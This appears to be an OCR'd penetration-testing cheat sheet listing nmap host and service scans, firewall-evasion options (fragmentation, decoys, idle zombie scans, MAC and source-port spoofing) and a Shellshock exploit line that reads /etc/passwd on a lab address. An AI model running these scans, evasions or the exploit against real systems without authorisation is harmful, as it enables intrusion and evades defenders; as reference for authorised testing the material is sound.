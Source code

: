 # Operating System Scan
$ nmap -O -T4 -Pn -oG OSDetect -iL LiveHosts.txt

# OS and Service Detect
$ nmap -O -sV -T4 -Pn -p U:53,111,137,T:21-25,80,139,8080 -oG OS_Service_Detect -iL LiveHosts.txt
Nmap – Techniques for Avoiding Firewalls
# fragmentation
$ nmap -f

# change default MTU size number must be a multiple of 8 (8,16,24,32 etc)
$ nmap --mtu 24

# Generates a random number of decoys
$ nmap -D RND:10 [target]

# Manually specify the IP addresses of the decoys
$ nmap -D decoy1,decoy2,decoy3 etc.

# Idle Zombie Scan, first t need to find zombie ip
$ nmap -sI [Zombie IP] [Target IP]

# Source port number specification
$ nmap --source-port 80 IP

# Append Random Data to scan packages
$ nmap --data-length 25 IP

# MAC Address Spoofing, generate different mac for host pc
$ nmap --spoof-mac Dell/Apple/3Com IP
Exploit servers to Shellshock
# A tool to find and exploit servers vulnerable to Shellshock
# https://github.com/nccgroup/shocker
$ ./shocker.py -H 192.168.56.118  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
